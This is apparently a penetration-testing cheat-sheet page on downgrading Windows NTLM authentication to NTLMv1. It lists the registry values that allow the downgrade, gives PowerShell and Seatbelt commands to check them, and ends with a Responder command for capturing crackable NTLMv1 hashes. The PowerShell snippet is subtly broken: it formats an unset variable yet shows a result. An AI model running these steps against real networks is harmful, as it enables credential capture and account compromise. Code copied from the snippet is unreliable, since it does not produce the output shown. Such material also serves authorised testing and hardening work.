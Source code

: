 # NTLMv1 Downgrade

* [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
* [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
* [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)
* [https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $value)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder (see [Coerce Authentication](/pentest/infrastructure/ad/authentication-coercion.md) to trigger callbacks):

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```
